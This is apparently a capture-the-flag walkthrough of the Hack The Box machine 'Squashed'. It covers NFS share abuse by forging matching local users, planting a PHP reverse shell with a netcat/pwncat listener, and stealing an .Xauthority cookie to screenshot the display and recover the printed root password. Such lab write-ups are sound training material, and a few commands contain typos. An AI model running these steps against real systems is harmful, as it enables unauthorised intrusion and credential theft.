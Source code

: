 <h2> Target: 10.10.11.191 Squashed </h2>
<html> 
<body> 
<b>Initial Access:</b><br>
nmap -Pn -p- 10.10.11.191 --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ',' 	<br>
Output shows open ports: 22,80,111,2049,36873,45053,45653,46087 <br><br>
Enumerating these open ports further with nmap: <br>
nmap -Pn 10.10.11.191 --min-rate=5000 -p 22,80,111,2049,36873,45053,45653,46087 -sC -sV -oN nmap.squashed
  
<br> ![image](https://user-images.githubusercontent.com/93153300/201415120-8ecfb9f5-c174-487f-b0c4-751f762293c3.png)
 
Check if anything is mounted and accessible on port 2049/nfs using command: showmount -e 10.10.11.191:
 
![image](https://user-images.githubusercontent.com/93153300/201415208-a4c7cf1f-6a56-4604-98a6-e044f82cb366.png)
 
We find 2 file-shares that we can look into.  The ‘*’ at the end of the file-shares indicates that it is globally accessible, meaning we can access those file-shares.  Start by checking on /var/www/html.  Create a mounting directory, we will call it mmnt, using command: mkdir mmnt <br>
Mount the ‘/var/www/html’ share using command: mount -o soft -o bg -t nfs 10.10.11.191:/var/www/html/ mmnt
 
Go into mmnt to check the target file-share ‘/var/www/html’ we just mounted using command: cd mmnt.  <br>
We get a 'permission denied' response: 
 
![image](https://user-images.githubusercontent.com/93153300/201415223-8edce889-39c4-4945-b730-f06b52e3f25a.png)
 
Check file permissions using command: ls-al mmnt 
 
![image](https://user-images.githubusercontent.com/93153300/201415249-97a66f19-039e-416d-83c5-7270bf7f8d2f.png)

Not much clues here to help us.  Instead of looking at permissions inside of directory mmnt, look at permissions of the directory mmnt using command: ls -al 

![image](https://user-images.githubusercontent.com/93153300/201415267-811e1fdc-72f0-4f3a-9b11-f0384eee0d81.png)

This shows the mounted directory is owned by www-data.  In order to be able to read the files in the mounted directory mmnt, create a user called ‘www-data’.  These are the steps to create a new user: <br>
Step 1: open /etc/passwd with a text editor. <br>
Step 2: copy a user you currently have on the system in /etc/passwd, we will call him ‘testuser’, and change the name to www-data. 

![image](https://user-images.githubusercontent.com/93153300/201415283-bd8be1f9-7ac5-492a-afc6-32a426fd9853.png)
 
Step 3: change the ‘x’ found after the name of the user into a ‘*’.
 
![image](https://user-images.githubusercontent.com/93153300/201415311-d3faf871-76e6-473d-ad4f-1a41a278621b.png)
 
To change to user www-data use command: su www-data.  <br>
Now we have access to the mounted share.  

![image](https://user-images.githubusercontent.com/93153300/201415344-017d1402-3676-44a9-8b3c-4f735066df96.png)

Use this to get a reverse shell.  First, put a pentestmonkey php reverse shell in this ‘/var/www/html’ mounted file share, we will call it ‘shell.php’.  Next, open a netcat listener using command: nc -lvnp 443 (I will use pwncat-cs -lp 443 because pwncat gives a better shell than netcat).  Finally, visit port 80 at http://10.10.11.191/shell.php to run the ‘shell.php’ file. <br>
It worked, we have shell as alex.  We can go to /home/alex/user.txt to get the flag.
 
![image](https://user-images.githubusercontent.com/93153300/201415416-4b04cbf0-1ce3-4bd6-932e-a4e7be57547f.png)
_______________________________________________________________________________
<b>Privilege Escalation:</b><br>
Directory /home/ross shows a ‘.Xauthority’ file.  ‘.Xauthority’ file is used to store credentials in the form of cookies.  If we can get the ‘.Xauthority’ file then we should be able to use that to dump an image of an X window.  The image of an X window will show us a screenshot of the display in its current state.  The display may reveal interesting information.  

Steps to read the ‘.Xauthority’ file: <br>
Step 1: we don’t have permissions to read the file ‘.Xauthority’, however we saw earlier that /home/ross is a mounted file-share that we can access.  We can get access to that file-share the same way we did for user www-data.  Repeat the steps we did before to create a user www-data, but this time call the user ‘ross’.  
Step 2: unmount the ‘/var/www/html’ share using command: umount mmnt.  <br>
Step 3: mount file-share /home/ross using command: mount -o soft -o bg -t nfs 10.10.11.191:/home/ross mmnt.  
Step 4: on our local system, switch to user ross using command: su ross.   We now have permissions to read ‘.Xauthority’ in /home/ross.   

To make use of the ‘.Xauthority’ we need the ‘.Xauthority’ file to be on the target shell, not on our local system.  Here are the steps to get the ‘.Xauthority’ on the target shell:

(Usually, the standard copy/upload commands would suffice to do this.  However, we run into some issues if we do that because this is a mounted share and not a local file on our system. So we will output the file content and then copy and paste the file content.  The challenge is that ‘.Xauthority’ is in raw format.  Raw format doesn’t copy well so we cannot do a simple copy paste.)

Step 1:  on the mounted file-share, base64 encode the content of ‘.Xauthority’ by using the command: cat .Xauthority | base64 -w 0 <br>
Step 2: copy the base64 string to the target, and decode the base64 string back to its original raw format.  To do this, go back to the target alex user shell and run the command: echo -n '<put here the base64 encoded string>' | base64 -d > /tmp/.Xauthority 
 
![image](https://user-images.githubusercontent.com/93153300/201415434-3ce491fe-d5ef-4209-be4d-0872e9eee185.png)

We now have the ‘.Xauthority’ file on the target shell.  To get the screenshot of the display in its current state we will use a command called ‘xwd’.  We need to do two things before we can run ‘xwd’ successfully.  
Step 1: Set the environment variable of XAUTHORITY to the file we made in /tmp/.Xauthority.  Use command: export XAUTHORITY=/tmp/.Xauthority <br>
Step 2: To run ‘xwd’ we need to know the ‘display’.  Run command ‘w’  to see the display:
 
![image](https://user-images.githubusercontent.com/93153300/201415457-53513776-95f7-4d9a-a33a-23f3bdf5089b.png)
  
The output from the ‘w’ command shows in the ‘FROM’ column that the display used is ‘:0’ .

We are ready to run ‘xwd’. Use command: xwd -root -screen -silent -dsiplay :0 > /tmp/screen.xwd 
Download /tmp/screen.xwd to our local system.  To do this we will open a python server on the target shell using command: python3 -m http.server 8000.  <br>
On our local system, use command: wget http://10.10.11.191/screen.xwd

The ‘screen.xwd’ file is now on our local system.  To see the display on ‘screen.xwd’ convert it to a ‘.png’ file using command: convert screen.xwd screen.png <br>
Opening the ‘screen.png’  file shows:

![image](https://user-images.githubusercontent.com/93153300/201415474-6e93858c-05d9-4696-bef6-582d5e16560f.png)

This shows root’s password. Use command ‘tesseract’ to convert the password image into clear text  instead of copying it down letter by letter: tesseract screen.png screen.txt <br>
The password is ‘cah$mei7rai9A’.  Back on the target shell as user alex run command: su → when prompted for password enter the password.  <br>
We have shell as root, can get the flag at /root/root.txt
</body>
</html>
